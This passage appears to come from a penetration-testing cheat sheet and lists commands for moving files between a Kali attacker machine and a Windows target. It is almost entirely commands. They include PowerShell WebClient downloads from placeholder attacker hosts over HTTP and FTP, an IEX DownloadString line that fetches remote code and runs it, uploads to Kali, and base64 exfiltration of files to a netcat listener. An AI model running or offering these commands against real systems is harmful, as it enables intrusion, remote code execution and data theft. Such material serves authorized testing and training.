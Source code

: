     ```cmd
      powershell -c (New-Object System.Net.WebClient).DownloadFile('http://[KALI_IP]:8888/[SRC]', '[DEST]')
      ```
    ```powershell
      powershell wget http://[KALI_IP]:8888/[SRC] -o [DEST]
      ```

- Upload the file on the server

  - To Kali → `. .\PSUpload.ps1` + `Invoke-FileUpload -Uri http://[KALI_IP]:8888/[DEST] -File [SRC]`

### Python server

1. Open a server

   ```bash
   python3 -m uploadserver
   ```

2. Upload via Invoke-RestMethod

   ```cmd
   > IEX(New-Object Net.WebClient).DownloadString('[LINK]')
   > Invoke-FileUpload -Uri http://[IP]/upload -File [FILE PATH]
   ```

### Netcat + Base64

1. Open netcat listener and tail watcher

   ```bash
   nc -lvnp 8888 > B64_OUT
   tail -f B64_OUT
   ```

2. Send the file by using `Invoke-WebRequest` or `Invoke-RestMethod` in base 64

   ```powershell
   $b64 = [System.convert]::ToBase64String((Get-Content -Path '[SRC]' -Encoding Byte))
	 iwr -uri [URL] -Method POST -Body $b64 
	```

3. Decode once tail watcher stops data stream

   ```bash
	cat B64_OUT | tail -n 1 | base64 -d -w 0 > [OUT]
   ```
### FTP

- `ftpserv()`

- Download

  ```cmd
  powershell -c (New-Object Net.WebClient).DownloadFile('ftp://[KALI_IP]:2121/[SRC]', '[DEST]')
  ```

